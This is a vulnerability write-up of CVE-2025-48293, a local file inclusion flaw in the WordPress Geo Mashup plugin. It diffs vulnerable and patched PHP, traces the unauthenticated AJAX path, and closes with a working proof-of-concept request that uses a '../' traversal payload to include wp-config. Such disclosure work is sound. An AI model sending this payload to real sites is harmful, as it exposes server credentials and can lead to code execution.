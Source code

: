 # CVE-2025-48293 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Geo Mashup** plugin version **≤ 1.13.16** contains a **Local File Inclusion** vulnerability that allows an unauthenticated attacker to control the file parameter used in `include/require`, thereby injecting or reading local files on the server (for example configuration files containing credentials), leading to leakage of sensitive information and, in some configurations, potential code execution.

* **CVE ID**: [CVE-2025-48293](https://www.cve.org/CVERecord?id=CVE-2025-48293)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 1.13.16
* **Patched Versions**: 1.13.17
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Geo Mashup Plugin](https://wordpress.org/plugins/geo-mashup/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Geo Mashup**: **1.13.16** (vulnerable) and **1.13.17** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect differences between the two versions.

## Analysis

### Patch diff

**Vulnerable code**:

```php {filename="geo-query.php v1.13.16" hl_lines=[2]}
public static function generate_object_html( ) {
    $template_base = ( isset( $_GET['template'] ) ) ? $_GET['template'] : '';
    // other logc
    load_template( GeoMashup::locate_template( $template_base ) );
}
```

`$template_base` is taken directly from `$_GET['template']` **without any checks/sanitization**.

The value is passed to `GeoMashup::locate_template()` and then used with [`load_template()`](https://developer.wordpress.org/reference/functions/load_template/) — an attacker can control the file path to be included.

**Patch**:

```php {filename="geo-query.php v1.13.17" hl_lines=[2]}
public static function generate_object_html( ) {
    $template_base = ( isset( $_GET['template'] ) ) ? sanitize_key($_GET['template']) : '';
    // other logic
    load_template( GeoMashup::locate_template( $template_base ) );
}
```

[`sanitize_key()`](https://developer.wordpress.org/reference/functions/sanitize_key/) is applied to `template` => removes unsafe characters, prevents `../`, `\`, and special characters, reducing the risk of **path traversal** and **LFI** from the `template` parameter.

### Vulnerable Code

We analyze the logic in `GeoMashup::locate_template()` to see how it affects `$template_base`

```php {filename="geo-mashup.php v1.13.16" hl_lines=[3,10,11,12]}
public static function locate_template( $template_base ) {
    $template = locate_template( array("geo-mashup-$template_base.php") );
 
    if ( empty( $template ) || !is_readable( $template ) ) {
        $template = path_join( GEO_MASHUP_DIR_PATH, "default-templates/$template_base.php" );
    }
    return $template;
}
```

`$template` is reassigned by calling `locate_template()` (from **template.php**) with the argument `geo-mashup-$template_base.php`

```php {filename="template.php v1.13.16" hl_lines=[]}
function locate_template( $template_names, $load = false, $load_once = true, $args = array() ) {
	global $wp_stylesheet_path, $wp_template_path;

	if ( ! isset( $wp_stylesheet_path ) || ! isset( $wp_template_path ) ) {
		wp_set_template_globals();
	}

	$is_child_theme = is_child_theme();

	$located = '';
	foreach ( (array) $template_names as $template_name ) {
		if ( ! $template_name ) {
			continue;
		}
		if ( file_exists( $wp_stylesheet_path . '/' . $template_name ) ) {
			$located = $wp_stylesheet_path . '/' . $template_name;
			break;
		} elseif ( $is_child_theme && file_exists( $wp_template_path . '/' . $template_name ) ) {
			$located = $wp_template_path . '/' . $template_name;
			break;
		} elseif ( file_exists( ABSPATH . WPINC . '/theme-compat/' . $template_name ) ) {
			$located = ABSPATH . WPINC . '/theme-compat/' . $template_name;
			break;
		}
	}

	if ( $load && '' !== $located ) {
		load_template( $located, $load_once, $args );
	}

	return $located;
}
```

The logic checks for the existence of files when concatenated with `$template_name`; if none exist it returns an empty string `''`.

{{< figure src="debug1.png" caption="File existence related logic" >}}

When an attacker sends `$_GET['template']` containing `../` the file will by default not exist, and `locate_template()` returns `''`.

Returning to `GeoMashup::locate_template()`, when `$template` is empty and not readable (`!is_readable($template)`) it is reassigned and returned.

```php
const string GEO_MASHUP_DIR_PATH = "/srv/www/wordpress/wp-content/plugins/geo-mashup"

GEO_MASHUP_DIR_PATH.default-templates/$template_base.php
```

👉 `GeoMashup::locate_template()` does not modify `$template_base` which we control, so we proceed to find a way to trigger this behavior.

```php {filename="geo-query.php v1.13.17" hl_lines=[4]}
if ( ( isset( $_GET['output'] ) and 'json' == $_GET['output'] ) or empty( $_GET['object_ids'] ) ) {
	GeoMashupQuery::generate_location_json( );
} else {
	GeoMashupQuery::generate_object_html( );
}
```

`generate_object_html()` is only called when `$_GET['output']` is not provided and `$_GET['object_ids']` is not empty.

**geo-query.php** containing the above logic is invoked in **geo-mashup.php**

{{< figure src="search1.png" caption="**geo-query.php** is called within **geo-mashup.php**" >}}

The `geo_query` function is the callback for an **Unauthenticated** action hook:

```php
add_action( 'wp_ajax_nopriv_geo_mashup_query', array( __CLASS__, 'geo_query') );
```

When accessing the endpoint `/wp-admin/admin-ajax.php` with `action=geo_mashup_query` the `geo_query` callback is executed.

## Exploit

### Proof of Concept (PoC)

1. Add code to `wp-config.php` for testing

```php
echo "Payload";
```

2. Send a **GET request** with an **LFI** payload

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../wp-config HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: green
Priority: u=0, i
```

**Result**:

{{< figure src="result.png" caption="Successful LFI result" >}}

## Conclusion

CVE-2025-48293 is an LFI caused by using the `template` input without validation when concatenating into a fallback path, allowing path traversal (`..`) and inclusion of unintended files. It was fixed in **v1.13.17** by applying `sanitize_key()`.

## Key takeaways

* Do not use user input directly to build paths for includes.
* Use a **whitelist** or `sanitize_key()` + `realpath()` checks.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Geo Mashup Plugin <= 1.13.16 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/geo-mashup/vulnerability/wordpress-geo-mashup-plugin-1-13-16-local-file-inclusion-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-13-cve-2025-48293/  

